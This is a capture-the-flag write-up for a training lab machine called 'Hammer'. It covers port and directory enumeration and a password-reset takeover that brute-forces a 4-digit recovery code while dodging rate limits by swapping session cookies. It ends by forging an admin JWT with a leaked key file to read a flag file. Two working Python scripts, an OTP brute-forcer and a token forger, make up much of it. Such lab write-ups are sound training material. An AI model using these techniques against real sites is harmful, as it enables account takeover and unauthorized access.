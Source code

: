 ## THM CTF - Hammer

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   hammer.thm
```
Now we can proceed with an Nmap scan.
```
sudo nmap -sS -T4 -p- hammer.thm
sudo nmap -sS -sV -sC -T4 -p22,1337 hammer.thm
```
We’ve found two open ports, but for now, we’re focusing on **HTTP**. We’ll leave the SSH port open for later if we need it.

We can ignore all other Nmap scans for now because we need to test a web application. However, the scan reveals that the ```HTTPOnly flag``` for cookies isn’t set.

Connecting to the site at ```http://hammer.thm:1337```, we find a login page.

Examining the page’s HTML, we read a developer note that should be deleted for security reasons.
```
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```
Keeping this information for later use, we can try to authenticate and analyse the site response to a bad authentication.

The request sends to the server:
* PHPSESSID as cookie
* email
* password

At the bottom of the login page, there is a ```"forgot your password?"``` link.
However, it seems we are at a dead end because we have no clue about any possible email to submit.

We turn back to the Dev Note found before.

We can list directories using ```Gobuster``` or ```Dirb```, but we need to modify the ```common.txt``` file to follow the new pattern. We can easily achieve this by using the sed or awk command.
```
cp /usr/share/wordlists/dirb/common.txt .
sed 's/^/hmr_/' common.txt > common_hmr.txt
```
With this new file, we can launch two different ```Gobuster``` enumerations.
```
gobuster dir -u http://hammer.thm:1337 -w common_hmr.txt
gobuster dir -u http://hammer.thm:1337 -w common.txt -x html,js,txt,php,db,json,log
```
The first one successfully enumerates 4 folders:
* /hmr_css 
* /hmr_images
* /hmr_js
* /hmr_logs  

For now the most interesting is:
* hmr_logs

Visiting this folder, it reveals an ```error.logs``` file that contains some useful information:
* LimitInternalRecursion error with a limit of 10
* user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
* /admin-login
* /var/www/html/locked-down

At least now we have a valid email to use.

The second scan successfully enumerates some interesting files/folders like:
* composer.json - reveals to us that the site use firebase/php-jwt 6.10
* /vendor
* /javascript
* dashboard.php - maybe the landing page after a successful login procedure
* /phpMyAdmin

Now we can try a password recovery with the newest found email:
* tester@hammer.thm

The new page ask for a 4 digit code with a countdown. However submitting a code gives us the opportunity to analyse the request containing 2 parameters:
* recovery code
* s - it represents the number of seconds remaining until the countdown ends when we submitted the form.

This implies that we could potentially control the countdown.

Trying various code, after maybe 9 tries we receive the message:
```
Rate limit exceeded. Please try again later.
```
So the main problem now is the number of attempt for every password reset request.
However we cannot try again, but one way this site can control this behaviour is thanks to ```Javascript``` and ```Cookies```.

We can try to request a new ```Cookie``` deleting the old one. It works. We can reset the password again, however we need a new code, so this is a partial victory.

Open ```BurpSuite``` and analyse the traffic intercepted while submitting the code. ```Send to the repeater```.

In the response header we find the value:
* Rate-Limit-Pending: 6

The server stores the number of our failed attempts to submit the correct code.

While analysing the response, we sent another request with ```s=174```. However the real timer was expired and the server response is:
```
Time elapsed. Please try again
```
We can deduce that this time is controlled server-side.

Analysing all this information, we can deduce that we can’t bypass the timer. However, we might be able to exceed the maximum attempt limit by using a fresh ```Cookie``` before the last one expires. This would give us 9 more tries every time we change the ```Cookie```.

We need to create a script to automate all this process.

<details><summary><h3>THM_Hammer_brute_OTP.py</h3></summary>
  
```python

import requests
# from concurrent.futures import ThreadPoolExecutor

# Define the URLs for password recovery
hammer_ip = 'hammer.thm'
hammer_port = '1337' # default 80
hammer_full = f'{hammer_ip}:{hammer_port}'
hammer_url = f'http://{hammer_ip}:{hammer_port}'
recovery_url = f'{hammer_url}/reset_password.php'

# Define password recovery credentials
credentials = {
    'email': 'tester@hammer.thm'
}

# Function to get a fresh cookie
def get_cookie(url,payload):
	headers={
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
	}

	session = requests.Session()
	response = session.post(url, headers=headers, data=payload)
	return session, session.cookies.get("PHPSESSID", None)

# Function to brute force OTP
def submit_code(session, url, code):
	payload={
		'recovery_code': code,
		's': '160'
	}
	headers={
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
	}

	response = session.post(url, headers=headers, data=payload)
	return response



# Code for using only one thread
# Get first cookie
session, cookie = get_cookie(recovery_url, credentials)
for i in range(10000):
	recovery_code = f"{i:04d}" # Generate codes 0000-9999
	print(f"Trying...{recovery_code}")
	
	# Submit the code
	response = submit_code(session, recovery_url, recovery_code)
	
	#Get a new cookie if the Rate-Limit-Pending = 1
	if int(response.headers['Rate-Limit-Pending']) <2:
		 session, cookie = get_cookie(recovery_url,credentials)

	# Break the loop if we find a valid code and print the cookie to use
	if "Invalid" not in response.text and response.status_code in (302,200):
		print(f"FOUND------ valid code found {recovery_code}")
		print(f"USE this cookie: {cookie}")
		break


"""
# Worker function for threads
def worker(recovery_code):
    # Create a new session and fetch a cookie for this thread
    session, cookie = get_cookie(recovery_url, credentials)

    # Attempt the recovery code
    response = submit_code(session, recovery_url, recovery_code)

    if "Invalid" not in response.text and response.status_code in (302,200):
        print(f"Valid code found by thread: {recovery_code}. Cookie {cookie}")
        return 200

# Multithreaded execution
with ThreadPoolExecutor(max_workers=10) as executor:
    codes = [f"{i:04d}" for i in range(10000)]  # Generate codes 0000-9999
    results = list(executor.map(worker, codes))
    if results == 200:
        exit()

# Filter out None results to find valid codes
valid_codes = [code for code in results if code]
print("Valid codes found:", valid_codes)
"""
```

</details>

The code is written for a single thread, which proved sufficient to find the code within the specified timeframe of 180 seconds. However, we can leverage the assistance of the AI to develop a multithreaded code that can potentially enhance its speed.

We have found a valid ```Cookie```, so we can navigate to recovery page, insert the email, change the ```Cookie```, refresh and now we can change the password.

After logging in we find the ```first flag```, however after a little while, we are automatically logged out.

Analysing the page content, we discover a script that checks for a specific ```Cookie``` ```persistenceSession```. If the ```Cookie``` is expired, it prompts our logout.
We can simply change the ```Cookie``` expiration time to obtain a longer session.

Now we need to find a way to read the content of the file ```/home/ubuntu/flag.txt```, however the console accept only ```ls``` as command.

Diving deep in the ```Cookie``` session we find a ```token``` that seems like a ```JWT```.

Using [JWT.io](https://jwt.io) we can identify it as a token for a normal user.

We can change the ```role``` to ```admin``` but we do not know the secret code of the key:
```
"kid": "/var/www/mykey.key"
```
However while using the console and sumbitting the ```ls``` command, we noticed a ```188ade1.key``` that can be used to produce a new ```JWT```.

We can download it a change the ```JWT``` accordingly using the secret inside.
```
wget http://hammer.thm:1337/188ade1.key
```
[JWT.io](https://jwt.io)
```
"kid": "/var/www/html/188ade1.key"
"role": "admin"
"secret" : 188ade1.key secret
```
Now we need to use ```BurpSuite``` to submit a command.
Sending the request to the repeater, we need to change the old ```JWT``` to the new one, both in ```token``` field and ```Authorisation: Bearer```, changing also the ```command```.
```
"command": "cat /home/ubuntu/flag.txt"
```
This way we can obtain the second flag in the response.

Note: to generate a new JWT token, we can use the python code attached and not only the site [JWT.io](https://jwt.io).


<details><summary><h3>THM_Hammer_generate_JWT.py</h3></summary>
  
```python

import jwt
from datetime import datetime

# Secret key
secret_key = "INSERT SECRET KEY HERE"

# JWT header'
header = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/188ade1.key"
}

# Set JWT Issued at Time and Expiration Time

iat = int(datetime(2025, 1, 28, 18, 0).timestamp())
exp = int(datetime(2025, 1, 28, 19, 0).timestamp())

# Payload with the 'admin' role
payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": iat, # change this Value to be Issued at Time that you need
    "exp": exp, # change this value to be coherent with expiration date
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "admin"
    }
}

# Encode the JWT
token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)

# Print the token
print(token)

```
</details>
